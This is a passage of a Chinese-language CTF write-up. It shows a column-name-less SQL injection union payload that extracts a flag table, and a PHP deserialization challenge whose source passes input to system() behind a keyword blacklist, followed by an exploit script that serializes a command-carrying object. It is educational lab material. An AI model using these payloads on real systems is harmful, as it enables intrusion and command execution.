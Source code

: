 因为我们用的是`mysql.innodb_table_stats`，我们无法查到列名
 所以继续用无列名注入

```
?id=-1' union SelECt 1,2,3,4,group_concat(`1`) from (SelECt 1 union SelECt * from ctf.here_is_flag)a wHere '1 --+
```

得到flag
 ![在这里插入图片描述](assets/e5b4102c110a4b109cfca0ecfe8a6c8e.png)

### Unserialize？

源码

```php
 <?php
highlight_file(__FILE__);
// Maybe you need learn some knowledge about deserialize?
class evil {
    private $cmd;

    public function __destruct()
    {
        if(!preg_match("/cat|tac|more|tail|base/i", $this->cmd)){
            @system($this->cmd);
        }
    }
}

@unserialize($_POST['unser']);
?> 
```

由于是private成员变量，所以序列化后长度会加2，多两个空白符
 exp

```php
<?php
class evil {
    private $cmd;
    function __construct($cmd1){
        $this->cmd=$cmd1;
    }
}

$a=new evil('ls /');
echo serialize($a);
?> 
```
